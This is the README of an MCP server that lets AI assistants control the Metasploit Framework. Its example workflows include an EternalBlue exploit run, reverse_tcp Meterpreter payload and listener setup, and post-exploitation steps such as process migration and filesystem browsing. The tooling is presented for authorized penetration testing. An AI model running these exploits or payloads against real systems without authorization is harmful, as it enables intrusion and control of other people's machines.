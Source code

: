 # Metasploit MCP Server

A Model Context Protocol (MCP) server for Metasploit Framework integration.

## Description

This MCP server provides a bridge between large language models like Claude and the Metasploit Framework penetration testing platform. It allows AI assistants to dynamically access and control Metasploit functionality through standardized tools, enabling a natural language interface to complex security testing workflows.

## Features

### Payload Generation and Execution

- **generate_payload**: Generate payload files using Metasploit RPC (saves files locally)
- **execute_local_program**: Execute a locally saved program (e.g., generated payloads)

### Exploitation Workflow

- **list_exploits**: Search and list available Metasploit exploit modules
- **list_payloads**: Search and list available Metasploit payload modules
- **run_exploit**: Configure and execute an exploit against a target
- **list_active_sessions**: Show current Metasploit sessions
- **send_session_command**: Run a command in an active session

### Post-Exploitation Tools

- **get_system_info**: Retrieve system information from a Meterpreter session
- **get_user_id**: Get the current user context of a session
- **list_processes**: List running processes on the target system
- **migrate_process**: Move a Meterpreter session to another process
- **filesystem_list**: List files in a directory on the target system

### Listener Management

- **list_listeners**: Show all active handlers and background jobs
- **start_listener**: Create a new multi/handler to receive connections
- **stop_job**: Terminate any running job or handler

### Auxiliary Module Support

- **run_auxiliary_module**: Run any Metasploit auxiliary module with options

## Prerequisites

- Metasploit Framework installed and msfrpcd running
- Python 3.10 or higher
- Required Python packages (see requirements.txt)

## Installation

1. Clone this repository
2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```
3. Configure environment variables (optional):
   ```
   MSF_PASSWORD=yourpassword
   MSF_SERVER=127.0.0.1
   MSF_PORT=55553
   MSF_SSL=false
   PAYLOAD_SAVE_DIR=/path/to/save/payloads  # Optional: Where to save generated payloads
   ```

## Usage

Start the Metasploit RPC service:

```bash
msfrpcd -P yourpassword -S -a 127.0.0.1 -p 55553
```

For Claude Desktop integration, configure `claude_desktop_config.json`:

```json
{
    "mcpServers": {
        "metasploit": {
            "command": "uv",
            "args": [
                "--directory",
                "C:\\path\\to\\MetasploitMCP",
                "run",
                "MetasploitMCP.py"
            ],
            "env": {
                "MSF_PASSWORD": "yourpassword"
            }
        }
    }
}
```

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", "192.168.1.100", 445)`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "getuid")`

### Post-Exploitation

1. Get system information: `get_system_info(1)`
2. List running processes: `list_processes(1)`
3. Migrate to a more stable process: `migrate_process(1, 1234)`
4. Browse the filesystem: `filesystem_list(1, "C:\\Users")`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload("windows/meterpreter/reverse_tcp", "exe", {"LHOST": "192.168.1.10", "LPORT": 4444})`
4. Stop a handler: `stop_job(1)`

## Configuration Options

### Payload Save Directory

By default, payloads generated with `generate_payload` are saved to a `payloads` directory in your home folder (`~/payloads` or `C:\Users\YourUsername\payloads`). You can customize this location by setting the `PAYLOAD_SAVE_DIR` environment variable.

**Setting the environment variable:**

- **Windows (PowerShell)**:
  ```powershell
  $env:PAYLOAD_SAVE_DIR = "C:\custom\path\to\payloads"
  ```

- **Windows (Command Prompt)**:
  ```cmd
  set PAYLOAD_SAVE_DIR=C:\custom\path\to\payloads
  ```

- **Linux/macOS**:
  ```bash
  export PAYLOAD_SAVE_DIR=/custom/path/to/payloads
  ```

- **In Claude Desktop config**:
  ```json
  "env": {
      "MSF_PASSWORD": "yourpassword",
      "PAYLOAD_SAVE_DIR": "C:\\your\\actual\\path\\to\\payloads"  // Only add if you want to override the default
  }
  ```

**Note:** If you specify a custom path, make sure it exists or the application has permission to create it. If the path is invalid, payload generation might fail.

## License

Apache 2.0
